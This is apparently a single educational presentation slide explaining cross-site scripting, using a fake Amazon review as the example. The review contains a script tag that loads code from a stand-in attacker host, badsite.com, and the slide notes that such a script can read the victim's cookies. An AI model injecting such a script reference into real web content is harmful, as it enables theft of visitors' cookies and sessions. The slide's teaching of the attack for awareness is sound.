

# Cross site scripting (XSS)
Idea: attacker injects a malicious script into the HTML of a webpage
When your browser loads a webpage, it displays the HTML and runs associated scripts
Example: attacker makes an Amazon review:
	Great price for a great item! Read my review here:
	script src="http://badsite.com/stealingstuff.js"
When the page is loaded, attacker's script executes! Then they have access to everything your browser has access to (like cookies)...